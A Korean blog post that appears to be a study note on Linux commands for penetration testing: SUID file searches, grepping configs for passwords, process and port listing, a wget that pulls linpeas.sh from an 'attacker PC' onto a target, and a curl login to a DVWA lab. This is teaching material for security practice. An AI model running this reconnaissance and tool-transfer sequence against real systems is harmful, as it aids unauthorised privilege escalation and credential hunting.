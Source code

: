 ```yaml
---
layout: post
title: "보안을 위한 리눅스 명령어 공부"
date: 2025-09-14 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

침투 테스트 및 보안 분석 과정에서 리눅스 명령어는 가장 기본적이고 강력한 도구이다. 시스템 내부 정보를 수집하고 실행 중인 서비스를 확인하며 공격에 필요한 스크립트를 준비하는 모든 작업은 터미널에서 이루어진다.

---

### 2. 파일 및 텍스트 처리

*   **find**: 특정 조건의 파일을 검색한다. 권한 상승의 단서가 되는 SUID 설정 파일이나 설정 오류가 의심되는 파일을 찾을 때 필수적이다.
    *   **주요 옵션:**
        *   `-perm`: 특정 권한을 가진 파일을 검색한다. (`-u=s`, `-4000`은 SUID)
        *   `-name`: 특정 이름 패턴을 가진 파일을 검색한다.
        *   `-type`: 파일의 종류를 지정한다. (`f`: 파일, `d`: 디렉터리)
    ```bash
    # 루트 디렉터리부터 SUID 비트가 설정된 파일을 검색하고 권한 오류는 출력하지 않음
    find / -perm -u=s -type f 2>/dev/null
    ```
*   **grep**: 파일이나 파이프라인 출력에서 특정 문자열 패턴을 필터링한다. 로그 파일 분석이나 설정 파일에서 민감 정보를 찾을 때 사용된다.
    *   **주요 옵션:**
        *   `-r`: 지정된 디렉터리의 하위 폴더까지 재귀적으로 검색한다.
        *   `-i`: 대소문자를 구분하지 않고 검색한다.
        *   `-v`: 특정 패턴을 제외한 모든 라인을 출력한다.
    ```bash
    # 웹 서버 설정 파일 디렉터리부터 'password' 문자열을 하위 폴더까지 검색
    grep -r "password" /etc/apache2/
    ```

---

### 3. 프로세스 및 네트워크 확인

*   **ps**: 현재 시스템에서 동작하고 있는 프로세스의 목록을 보여준다. 시스템 권한으로 실행되는 비정상적인 프로세스를 확인할 때 사용된다.
    *   **주요 옵션 조합 `aux`:**
        *   `a`: 다른 사용자의 프로세스도 보여준다.
        *   `u`: 사용자 중심의 포맷으로 출력한다.
        *   `x`: 터미널에 연결되지 않은 프로세스(데몬 등)도 보여준다.
    ```bash
    # 시스템에서 실행 중인 모든 프로세스를 상세 정보와 함께 보여줌
    ps aux
    ```
*   **netstat**: 현재 시스템에서 열려 있는 포트와 네트워크 연결 상태를 보여준다. 최신 시스템에서는 `ss` 명령어가 더 빠른 성능을 보인다.
    *   **주요 옵션 조합 `tulpn`:**
        *   `t`: TCP 포트를 보여준다.
        *   `u`: UDP 포트를 보여준다.
        *   `l`: 연결 대기(Listen) 상태의 포트만 보여준다.
        *   `p`: 해당 포트를 사용하는 프로세스의 이름과 PID를 보여준다.
        *   `n`: 호스트 이름 대신 IP 주소로 보여준다.
    ```bash
    # 리스닝 중인 모든 TCP/UDP 포트와 해당 포트를 사용하는 프로세스 정보를 보여줌
    netstat -tulpn
    ```

---

### 4. 원격 데이터 전송

*   **wget**: 원격 서버의 파일을 다운로드하여 저장한다. 주로 공격자 PC의 웹 서버에서 `linpeas.sh`와 같은 진단 스크립트를 공격 대상 서버로 옮길 때 사용된다.
    *   **주요 옵션:**
        *   `-q`: 다운로드 과정을 출력하지 않는다 (Quiet).
        *   `-O <file>`: 다운로드한 내용을 지정된 파일 이름으로 저장한다. (`-O -`는 표준 출력으로 보냄)
    ```bash
    # 공격자 PC(192.9.200.12)에서 실행 중인 웹 서버로부터 linpeas.sh를 다운로드
    wget http://192.9.200.12:8000/linpeas.sh
    ```
*   **curl**: URL을 통해 데이터를 전송하고 그 결과를 터미널에 직접 출력한다. 파일 저장 없이 API 응답을 확인하거나 웹 페이지 소스를 분석할 때 유용하다.
    *   **주요 옵션:**
        *   `-X <METHOD>`: `GET`, `POST` 등 HTTP 메서드를 지정한다.
        *   `-d <data>`: `POST` 요청 시 전송할 데이터를 지정한다.
    ```bash
    # DVWA 로그인 페이지에 POST 요청을 보내고 응답을 확인
    curl -X POST -d "username=admin&password=password&Login=Login" http://192.9.200.11/login.php
    ```

<hr class="short-rule">